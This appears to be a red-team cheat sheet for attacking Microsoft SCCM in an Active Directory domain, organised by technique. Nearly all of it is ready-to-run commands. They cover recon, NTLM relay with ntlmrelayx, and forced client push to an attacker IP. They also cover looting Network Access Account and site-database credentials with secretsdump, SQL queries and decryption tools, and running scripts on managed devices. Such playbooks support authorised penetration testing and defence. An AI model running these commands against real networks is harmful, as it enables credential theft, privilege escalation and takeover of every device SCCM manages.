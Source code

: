 # SCCM

## recon
- `sccmhunter.py find -u <user> -p <password> -d <domain> -dc-ip <dc_ip> -debug`
  - `sccmhunter.py show -all`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> sccm`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> search "(objectclass=mssmsmanagementpoint)" dnshostname,msSMSSiteCode`
- `nxc smb <sccm_server> -u <user> -p <password> -d <domain> --shares`
 
## Creds-1 No credentials >>> NAA credentials || User + Pass
- Extract from pxe See no creds >>> PXE

##  Elevate-1:Relay on site systems Simple user >>> Admin on Site system
- coerce sccm site server
  - `ntlmrelayx.py -tf <site_systems> -smb2support`

## Elevate-2:Force client push Simple user >>> Admin
- `ntlmrelayx.py -t <sccm_server> -smb2support -socks # listen connection`
  - `SharpSCCM.exe invoke client-push -mp <sccm_server>.<domain> -sc <site_code> -t <attacker_ip> # Launch client push install`
    - `proxychains smbexec.py -no-pass <domain>/<socks_user>@<sccm_server>`
      - cleanup

## Elevate-3:Automatic client push Simple user >>> Relay ntlm
- Create DNS A record for non existing computer x
  - `dnstool.py -u '<domain>\<user>' -p <pass>  -r <newcomputer>.<domain> -a add -t A -d <attacker_ip> <dc_ip>`
    -  Enroll new computer x in AD  then remove host SPN from the machine account
      - `setspn -D host/<newcomputer> <newcomputer> setspn -D host/<newcomputer>.<domain> <newcomputer>`
        - wait 5m for client push
          - `ntlmrelayx.py -tf <no_signing_target> -smb2support -socks`
            - cleanup

## CRED-6 Loot creds >>> User + Pass
- SCCM SMB service (445/TCP) on a DP
  - `cmloot.py <domain>/<user>:<password>@<sccm_dp> -cmlootinventory sccmfiles.txt`
- SCCM HTTP service (80/TCP or 443/TCP) on a DP
  - `SCCMSecrets.py policies -mp http://<management_point> -u '<machine_account>$' -p '<machine_password>' -cn '<client_name>'`
  - `SCCMSecrets.py files -dp http://<distribution_point> -u '<user>' -p '<password>'`
  - `sccm-http-looter -server <ip_dp>`

## Takeover-1:relay to mssql db Simple user >>> SCCM ADMIN
- SCCM MSSQL != SSCM server
  - `sccmhunter.py mssql -u <user> -p <password> -d <domain> -dc-ip <dc_ip> -debug -tu <target_user> -sc <site_code> -stacked`
    - `ntlmrelayx.py -smb2support -ts -t mssql://<sccm_mssql> -q "<query>"`
      - coerce sccm_mssql -> attacker
        - `sccmhunter.py admin -u <target_user>@<domain> -p '<password>' -ip <sccm_ip>` 

## Takeover-2:relay to mssql server Simple user >>> Admin MSSQL
- SCCM MSSQL != SSCM server
  - `ntlmrelayx.py -t <sccm_mssql> -smb2support -socks`
    - coerce sccm_server 
      - `proxychains smbexec.py -no-pass <domain>/'<sccm_server>$'@<sccm_ip>`

## Creds-2:Policy Request Credentials Simple user >>> User + Pass
- add computer
  - `sccmwtf.py newcomputer newcomputer.<domain> <target> '<domain>\<computer_added>$' '<computer_pass>'`
    - get NetworkAccessUsername and NetworkAccessPassword
      - `policysecretunobfuscate.py`
        - delete device created after sccmadmin
  - `SharpSCCM.exe get secrets -r newcomputer -u <computer_added>$ -p <computer_pass>"`
    - cleanup

## Creds-3Creds-4 Computer Admin user >>> NAA credentials
- `dploot.py sccm -u <admin> -p '<password>' <sccm_target>`
- `sccmhunter.py dpapi  -u <admin> -p '<password>' -target <sccm_target> -debug`
- `SharpSCCM.exe local secrets -m disk`
- `SharpSCCM.exe local secrets -m wmi`

## Creds-5 SCCM admin >>> Site DB credentials
- `secretsdump.py <domain>/<admin>:'<pass>'@<sccm_target>`
  - `mssqlclient.py -windows-auth -hashes '<sccm_target_hashNT>' '<domain>/<sccm_target>$'@<sccm_mssql>`
    - `use CM_<site_code>;`
      - `SELECT * FROM SC_UserAccount;`
        - `sccmdecryptpoc.exe <cyphered_value>`

## EXEC-1/2 SCCM admin >>> lat
- `SharpSCCM.exe exec -p <binary> -d <device_name> -sms <SMS_PROVIDER> -sc <SITECODE> --no-banner`
- `sccmhunter.py admin -u <user>@<domain> -p '<password>' -ip <sccm_ip>`
    - `get_device <hostname>`
      - `interact <device_id>`
        - `script xploit.ps1`

## Cleanup
- `SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"`
  - `SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>`

## Post exploit
- as sccm admin
  - `SCCMHound.exe --server <server> --sitecode <sitecode>` >>> Users sessions